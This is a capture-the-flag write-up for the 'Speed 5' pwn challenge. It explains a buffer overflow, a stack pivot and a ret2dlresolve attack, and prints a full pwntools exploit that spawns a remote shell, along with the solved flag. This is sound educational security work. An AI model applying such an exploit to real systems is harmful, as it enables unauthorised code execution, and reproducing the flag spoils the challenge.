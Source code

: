 # Speed 5

## Challenge

We are given a small binary with no PIE, no canary, and partial RELRO.

The binary contains little more than a single call to `read`.

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution

The call to `read` is vulnerable to a buffer overflow, as it reads more characters than the buffer can safely store.
The overflow is quite short, so we first need to create room for a larger ropchain.

The program first enters the `go` function from `main`.
The `go` function is the one that contains the call to `read`.
The use of an additional function here allows us to pivot our stack onto the data section of the binary.

By pivoting the stack, we now know our stack address, which allows us to extend our ropchain using a second call to `read`.
From here, we can use a ret2dlresolve attack to call `system("/bin/sh")` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host speed-05.hfsc.tf --port 22345 speed5
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('speed5')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'speed-05.hfsc.tf'
port = int(args.PORT or 22345)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

io = start()

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"])
rop2 = ROP(exe)
rop2.read(0, dlresolve.data_addr, len(dlresolve.payload))
rop2.ret2dlresolve(dlresolve)
io.info(hex(dlresolve.data_addr))

new_base = 0x804c800 
rop1 = ROP(exe)
rop1.read(0, new_base, len(rop2.chain()))
rop1.raw(rop1.find_gadget(['leave', 'ret'])[0])

print(rop1.dump())
print(rop2.dump())

io.send(flat({
    0x18: new_base - 4,
    0x18+4: [
        exe.plt['read'],
        rop1.find_gadget(['leave', 'ret'])[0],
        0,
        new_base,
        len(rop2.chain()),
        ],
    0x30: [
        rop2.chain(),
        dlresolve.payload,
        ],
    }))

io.interactive()
```

## Flag

```
midnight{1d5be118261b067c0af4cff137d48d60}
```
